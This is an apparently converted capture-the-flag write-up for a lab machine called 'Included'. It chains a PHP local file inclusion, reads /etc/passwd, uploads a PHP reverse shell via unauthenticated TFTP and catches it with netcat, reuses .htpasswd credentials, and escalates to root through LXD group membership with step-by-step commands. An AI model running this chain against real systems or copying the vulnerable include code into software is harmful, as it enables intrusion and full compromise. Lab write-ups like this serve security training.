


# Writeups

**Source PDF:** `raw-logs/document.pdf`

## TL;DR

Included Write-up Introduction Enumeration is always the key when it comes to penetration testing - the better the enumeration, the better

## Extracted walkthrough

### Page 1

```
Included Write-up

Introduction

Enumeration is always the key when it comes to penetration testing - the better the enumeration, the better 
the chances of finding & exploiting vulnerabilities. Most of the times, you won't find the single vulnerability 
that will grant you access, instead, it will be the chain of misconfiguration that only if used together will let 
you inside. This machine teaches some more enumeration techniques, even on a different transport layer 
protocol, and it also teaches that every penetration tester sometimes needs to use Google to see how to 
perform certain tasks.
Enumeration

We begin, as always, by scanning the target for open ports.
The scan shows only port 80 TCP open, which seems to be running Apache version 2.4.29 . 
Apache

Let's navigate to port 80 using a browser like Chromium.
```


### Page 2

```
The webpage features the landing page for a Gear manufacturing company. It does not seem to contain 
anything of interest, however, if we take a look at the URL we can see that this has automatically changed to 
http://{target_IP}/?file=home.php . This is a common way that developers use to dynamically load 
pages in a website and if not programmed correctly it can often lead to the webpage being vulnerable to 
Local File Inclusion, but more about that in a bit. 
First, let's take a look at how this functionality might work.
In the above example, the code is located inside index.php , which is used to dynamically load other pages 
of the website by using the file  variable as the control point. If this variable has not been specified in the 
GET request, the page automatically re-writes the URL and loads home.php . If the value has been specified, 
the code attempts to load a page from the value of the variable. 
For instance, if the variable was file=register.php , the PHP code would attempt to load register.php  
from the same folder.
This is a good way to seamlessly load different web pages, however if the include  command is not 
restricted to just the web directory (e.g. /var/www/html ), it might be possible to abuse it in order to read 
any file that is available on the system and the user who is running the web server has privileges to read.
This is what is called a Local File Inclusion vulnerability and is defined as follows.
if ($_GET['file']) {
  include($_GET['file']);
} else {
  header("Location: http://$_SERVER[HTTP_HOST]/index.php?file=home.php");
}
```


### Page 3

```
We can easily determine if this is the case by attempting to load a file that we know definitely exists on the 
system and is readable by all users. One of those files is /etc/passwd  and to load it, change the file  
parameter from home.php  to /etc/passwd . For consistency reasons we will show this process with the 
cURL command line utility instead of a browser.
This is successful and a list of users is returned. 
It is worth noting that inputting /etc/passwd  might not always work if the inclusion already specifies a 
working directory.
For instance, consider the following code.
Local file inclusion (also known as LFI) is the process of including files, that are 
already locally present on the server, through the exploitation of vulnerable inclusion 
procedures implemented in an application.
curl 'http://{target_IP}/?file=/etc/passwd'
```


### Page 4

```
In this example the __DIR__  parameter is used to acquire the current working directory that the script is 
located in (e.g. /var/www/html ) and then the value of the file  variable is concatenated at the end. If we 
were to input /etc/passwd  the full path would become /var/www/html/etc/passwd , which would result in 
a blank page as there is no such file or folder on the system. 
To bypass this restriction we would have to instruct the code to search in previous directories. This would 
work similarly to how navigating to a previous folder is done with the cd  command.
In such a case, /etc/passwd  would become ../../../etc/passwd .
TFTP

Back to the task at hand, while a Local File Inclusion is a great way to gather information and read system 
files the goal of every Penetration Tester is to achieve Remote Code Execution on a system. There is a 
plethora of ways that an LFI can turn into RCE, from log poisoning to plaintext passwords in configuration 
files and forgotten backups, however in this case the passwd  file gave us a big hint as to how to proceed.
The last user that is listed is called tftp .
if ($_GET['file']) {
  include( __DIR__ . $_GET['file']);
} else {
  header("Location: http://$_SERVER[HTTP_HOST]/index.php?file=home.php");
}
tftp:x:110:113:tftp daemon,,,:/var/lib/tftpboot:/usr/sbin/nologin
```


### Page 5

```
A quick Google search reveals that Trivial File Transfer Protocol (TFTP) is a simple protocol that provides 
basic file transfer function with no user authentication. TFTP is intended for applications that do not need 
the sophisticated interactions that File Transfer Protocol (FTP) provides.
It is also revealed that TFTP uses the User Datagram Protocol (UDP) to communicate. This is defined as a 
lightweight data transport protocol that works on top of IP. 
To this end let's use Nmap to scan for open UDP ports. It is worth noting that a UDP scan takes considerably 
longer time to complete compared to a TCP scan and it also requires superuser privileges. 
The scan reveals that port 69 UDP is open and an instance of the TFTP server is running on it. In order to 
communicate with TFTP, we need to install it on our Linux machine.
Once the tool is installed its manual page can assist with its usage.
UDP provides a mechanism to detect corrupt data in packets, but it does not attempt to 
solve other problems that arise with packets, such as lost or out of order packets.
It is implemented in the transport layer of the OSI Model, known as a fast but not 
reliable protocol, unlike TCP, which is reliable, but slower then UDP.
Just like how TCP contains open ports for protocols such as HTTP, FTP, SSH and etcetera, 
the same way UDP has ports for protocols that work for UDP.
sudo apt install tftp
man tftp
```


### Page 6

```
Foothold

TFTP works by default without the need for authentication. That means that anyone can connect to the TFTP 
server and upload or download files from the remote system. 
We can chain this with the LFI vulnerability that we have already identified, in order to upload malicious PHP 
code to the target system that will be responsible for returning a reverse shell to us. We will then access this 
PHP file through the LFI and the web server will execute the PHP code.
We can either create our own PHP code or use one of the many available PHP reverse shells that can be 
found online through a Google search. One of them can be found here.
Copy the code and place it inside a file called shell.php . Then open it using a text editor such as nano  or 
vim  and edit the following lines.
The $port  variable specifies the local port that we will use to catch the reverse shell. This can be anything 
we want as long as it is not already being used by a local process. Let's leave it to 1234 .
The $ip  variable specifies the local IP address that the shell will be returned to. We can acquire this IP by 
running the ifconfig  command and looking under tun0 . The IP will be in the form of 10.10.14.X .
$ip = '127.0.0.1';  // CHANGE THIS
$port = 1234;       // CHANGE THIS
```




### Page 7

```
After acquiring the local IP, change it in the PHP shell and save it. Then we will upload the file to the remote 
TFTP server.
Now that the file has been uploaded, we need to start a local Netcat listener on the port that we specified in 
the reverse shell, in order to catch the connection once it initiates.
Finally we must find a way to access the uploaded PHP file through the LFI but we do not know where the 
file is uploaded on the target system. Thinking back to the passwd  file that we read earlier, the TFTP user's 
home folder is specified as /var/lib/tftpboot .
This information can also be found with a quick Google search.
nc -lvp 1234
tftp:x:110:113:tftp daemon,,,:/var/lib/tftpboot:/usr/sbin/nologin
The default configuration file for tftpd-hpa is /etc/default/tftpd-hpa. The default root 
directory where files will be stored is /var/lib/tftpboot
```


### Page 8

```
With this information let's try to load /var/lib/tftpboot/shell.php .
Once this command is run our terminal will appear stuck, however our Netcat listener has caught a 
connection.
The received shell is not fully interactive, however we can make it a bit better by using Python3.
Lateral Movement

With access to the system as the www-data  user we do not have enough privileges to read the user flag, 
therefore we need to find a way to move laterally to user mike  who was also found on the passwd  file. A 
good place to start our enumeration would be the web server directory as it often contains configuration 
files that might include passwords.
The web-related files are usually stored in the /var/www/html  folder, so that's where we are going start.
curl 'http://{target_IP}/?file=/var/lib/tftpboot/shell.php'
python3 -c 'import pty;pty.spawn("/bin/bash")'
```


### Page 9

```
The folder contains two interesting hidden files, .htaccess  and .htpasswd . The htpasswd  file is used to 
store usernames and passwords for basic authentication of HTTP users. Let's read both files.
The second file contains credentials for user Mike. Often times users re-use the same passwords for 
multiple services and accounts and compromising one of them might mean that all of them are 
compromised.
```


### Page 10

```
If user Mike has used the same password for their system account, we might be able to use the su  utility to 
acquire a shell with their privileges.
This is successful and the user flag is located in /home/mike .
Privilege escalation

The next step is escalating to the root  user in order to gain the highest privileges on the system. Looking at 
the groups that user Mike is a member of, the lxd  group is listed.
A quick Google search on what LXD is reveals the following information.
Digging a little deeper into LXD and searching for the keywords LXD Exploit  on Google reveals the 
following information.
LXD is a management API for dealing with LXC containers on Linux systems. It will perform 
tasks for any members of the local lxd group. It does not make an effort to match the 
permissions of the calling user to the function it is asked to perform.
```


### Page 11

```
This is exactly what we need and this HackTricks page describes the whole exploitation process step by 
step. The exploit works by making use of the Alpine image, which is a lightweight Linux distribution based 
on busy box. After this distribution is downloaded and built locally, an HTTP server is used to upload it to 
the remote system. The image is then imported into LXD and it is used to mount the Host file system with 
root privileges.
Building the image locally can be tedious due to dependency errors and other challenges. To simplify the 
process, we recommend downloading pre-built Alpine image files from the official LXC containers 
repository. We can use the latest default Alpine image (version 3.18 in this case) built for the AMD64 
architecture, which aligns with the target machine's architecture.
Download the following two required files to the local host:
lxd.tar.xz  – Contains metadata and configuration for the LXC/LXD image.
rootfs.squashfs  – Contains the root filesystem of the Alpine image.
Alternatively, the Alpine image can also be built locally using the YAML configuration. Let's begin by 
installing the Go programming language as well as some other required packages.
A member of the local “lxd” group can instantly escalate the privileges to root on the 
host operating system. This is irrespective of whether that user has been granted sudo 
rights and does not require them to enter their password. The vulnerability exists even 
with the LXD snap package.
```


### Page 12

```
Then we must clone the LXC Distribution Builder and build it.
Note: If the above make  command produces errors and fails to build the distrobuilder  binary, you 
can also install it via the Snap  store, as follows:
After the build is complete let's download the Alpine YAML file and build it.
Note: If you installed the binary via the Snap  store, replace the final sudo  command with the 
following:
Once the build is done lxd.tar.xz  and rootfs.squashfs  will be available in the same folder.
We will now have to transfer these files to the target system through the usage of a Python HTTP server. 
Run the following command locally on the same folder.
Then switch back to the reverse shell on the target system and download the files.
sudo apt install -y golang-go debootstrap rsync gpg squashfs-tools
git clone https://github.com/lxc/distrobuilder
cd distrobuilder
make
sudo apt install snapd
sudo snap install distrobuilder --classic
mkdir -p $HOME/ContainerImages/alpine/
cd $HOME/ContainerImages/alpine/
wget https://raw.githubusercontent.com/lxc/lxc-ci/master/images/alpine.yaml
sudo $HOME/go/bin/distrobuilder build-lxd alpine.yaml -o image.release=3.18
sudo /snap/bin/distrobuilder build-lxd alpine.yaml -o image.release=3.18
python3 -m http.server 8000
```


### Page 13

```
Note: As shown previously the local IP can be acquired through the ifconfig  command line utility.
Once the transfer finishes, use the ls  command to confirm the files transferred successfully.
The next step is to import the image using the LXC command-line tool.
To verify that the image has been successfully imported we can list the LXD images.
Alpine is correctly shown in the image list. We must now set the security.privileged  flag to true, so that 
the container has all of the privileges that the root file system has. We will also mount the root file system 
on the container in the /mnt  folder.
wget http://{local_IP}:8000/lxd.tar.xz
wget http://{local_IP}:8000/rootfs.squashfs
lxc image import lxd.tar.xz rootfs.squashfs --alias alpine
lxc image list
```


### Page 14

```
Finally we can start the container and start a root shell inside it.
To access the root flag, we can navigate to the /mnt/root/root  folder.
lxc init alpine privesc -c security.privileged=true
lxc config device add privesc host-root disk source=/ path=/mnt/root recursive=true
lxc start privesc
lxc exec privesc /bin/sh
```


### Page 15

```
We successfully got the flag, congratulations!
```




---

Generated by tools/convert_pdf_to_md.py — review & redact sensitive info before publishing.
